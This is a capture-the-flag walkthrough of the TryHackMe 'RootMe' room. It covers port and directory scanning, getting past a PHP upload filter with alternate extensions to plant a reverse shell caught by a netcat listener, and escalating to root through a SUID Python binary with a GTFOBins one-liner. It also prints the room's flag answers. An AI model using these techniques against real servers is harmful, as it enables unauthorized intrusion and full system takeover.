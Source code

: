 ```yaml
---
title: RootMe
date: 2023-04-24 17:00:00 +500
categories: [THM, easy machine]
tags: [suid]     # TAG names should always be lowercase
---
```

10.10.138.249


## Reconnaissance

### Scan the machine, how many ports are open?

Let's start with a nmap scan
```bash
nmap 10.10.138.249
```
and then a detailed one to see the port service and version

```bash
nmap -sCV -p22,80 10.10.138.249
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> 2


### What version of Apache is running?

In the Nmap scan, we see that we already have the answer to this
> Apache/2.4.29

### What service is running on port 22?

> ssh


### Find directories on the web server using the GoBuster tool.

Let's do a Gobuster scan
the syntax is:
```
gobuster [mode] -u [target ip] -w [wordlist]
```

```bash
gobuster dir -u 10.10.138.249 -w /usr/share/dirb/wordlists/common.txt
```

```
/css                  (Status: 301) [Size: 312] [--> http://10.10.138.249/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.138.249/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.138.249/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.138.249/uploads/]
```

### What is the hidden directory?

We see two hidden directories, /panel and /uploads but the correct answer is

> /panel

which is a site to upload a file

## Getting a shell

So now that we have a file to upload a file, let's start trying to upload a php reverse shell that i suppose we can execute later going to the /uploads directory

I am going to use this:

https://github.com/pentestmonkey/php-reverse-shell

Remember to change the IP and PORT of your machine that you will use. And set up the listener with the port in your machine

```bash
nc -lvnp 1234
```

but we get a prompt that says php files are not allowed

Let's try to use another extension of php if this will bypass the extension filter

like these that I got from: https://book.hacktricks.xyz/pentesting-web/file-upload
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

and with the second extension, the file got uploaded!

now let's head over to the uploads directory and try to run it 

I wasn't running so I tried with a more popular extension: .php5 and it worked, now we have a shell, let's retrieve the user.txt flag

### user.txt

to find the flag, since I know what the name is I will search for it with the command find
```bash
find / -name user.txt 2>/dev/null
```
the way it works is 'find [directory to search] -name [name of the file] 2>/dev/null [this last part is to avoid printing errors]

we found it on /var/www/user.txt, lets use cat to read it

> THM{y0u_g0t_a_sh3ll}

## Privilege Escalation

### Search for files with SUID permission, which file is weird?

to find this kind of file we can use the following command:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
the one that stands out is this:

> /usr/bin/python
### Find a form to escalate your privileges.

let's head over to _gtfobin_ to search an exploit for this SUID FILE

we got this
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
remember to change ./python to the actual directory path that we found
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

and with this, we got a root shell

### root.txt
I head over /root and there it is, the root.txt flag

> THM{pr1v1l3g3_3sc4l4t10n}
